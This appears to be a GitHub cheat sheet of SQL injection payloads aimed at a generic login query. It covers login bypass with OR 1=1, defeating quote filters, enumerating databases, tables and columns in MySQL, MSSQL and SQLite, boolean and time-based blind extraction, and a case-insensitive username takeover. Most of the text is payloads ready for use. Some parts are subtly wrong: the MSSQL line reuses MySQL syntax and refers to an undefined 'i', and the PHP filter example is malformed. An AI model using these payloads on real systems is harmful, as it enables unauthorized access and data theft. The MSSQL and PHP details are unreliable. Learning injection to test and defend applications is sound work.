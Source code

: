 ###### In the following queries, `'` may not work sometimes, so { **\`**,`"` } can  be tested
###### To comment out the remaining code, { `;#`,`;--`,`;//` } can be used
###### While doing sqli through urls, { `;#`,`;--`,`;//` } need to be encoded specially 

### Finding no of columns in table _(Error-based SQLI)_
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
  
* _[$input_user]_ : `' UNION SELECT 1,2,3.. FROM table_name --`
* _[$input_user]_ : `' ORDER BY n --`  [If we get error for n, then n-1 will be no of columns]
 
### Limiting no of rows
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
  
* _[$input_user]_ : `' OR 1=1 LIMIT 1 --`

### Special Bypassing
* Bypassing filtered `'`__[quote]__

```   
 <?php 
 $name = preg_replace("'","",$name);
 $pass = preg_replace("'","",$pass);
 SELECT * FROM users WHERE username='name' and password='pass'
```
  _[attack]_ => user = `\`  & pass = `OR 1=1 --`

## For Mysql
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
###### Assume no of columns to be 3
#### Finding version and databases
*  _[$input_user]_ : `' UNION SELECT 1,@@version,database() --`

#### Extracting Tables from databases
*  _[$input_user]_ : `' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()`

#### Extracting columns from databases
*  _[$input_user]_ : `' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database()`
*  _[$input_user]_ : `' UNION SELECT table_name, column_name, 1 FROM information_schema.columns`

## For Mssql
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
###### Assume no of columns to be 3
#### Finding version and databases
*  _[$input_user]_ : `' UNION SELECT 1,@@version,database() --` [Here **i** is the i-th database present]

## For sqlite
 In sqlite __sqlite_master__ replaces __information_schema__
 
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`

#### Extracting table names
  _[$input_user]_ : `' UNION SELECT name FROM sqlite_master WHERE type='table'`
#### Extracting column names from a table
  _[$input_user]_ : `' UNION SELECT sql FROM sqlite_master WHERE type='table' AND tbl_name = 'table_name'`

## Blind SQLI
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
  
*  _[$input_user]_ : `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE "%a%") --`   [It will ask whether a user with letter "a" or "A" containing in his name]
*  _[$input_user]_ : `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE "__a%") --`	 [It will ask whether the letter is at 3rd place or NOT]

  HERE `%`,`_` are WILDCARDS. `%` matches any string and `_` matches only one character

* By default, LIKE is __case-insensitive__

  _[$input_user]_ : `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE BINARY "%a%") --` [To make a case sensitive search, use BINARY right after LIKE]

## Time-based Blind SQLI
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`

*  _[$input_user]_ : `' OR (SELECT SLEEP(10) FROM table_name WHERE username='something') --`
*  _[$input_user]_ : `' OR IF(username='something',SLEEP(10),0) --`

    [Produces a delayed response if username=`something` exists]
 
## Common-errs
* `mysql` does a case insensitive search by default and also ignores the trailing spaces

   How to exploit that?
   
   A username `Admin` can be created and it can be used to sign-in as `admin`
